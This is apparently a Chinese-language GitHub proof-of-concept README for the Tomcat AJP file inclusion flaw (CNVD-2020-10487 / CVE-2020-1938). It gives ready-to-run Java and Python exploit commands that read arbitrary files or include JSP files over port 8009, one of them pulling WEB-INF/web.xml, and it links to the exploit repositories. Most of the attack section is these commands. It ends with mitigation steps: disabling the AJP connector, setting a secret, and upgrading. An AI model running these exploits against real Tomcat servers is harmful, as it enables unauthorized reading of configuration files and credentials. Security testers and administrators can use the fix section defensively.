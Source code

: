 # Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  

现在有两个poc     
## poc1  
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp```  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
## poc2  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  
# 漏洞修复：  
* 临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />  
* 配置ajp配置中的secretRequired跟secret属性来限制认证  
* 官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  



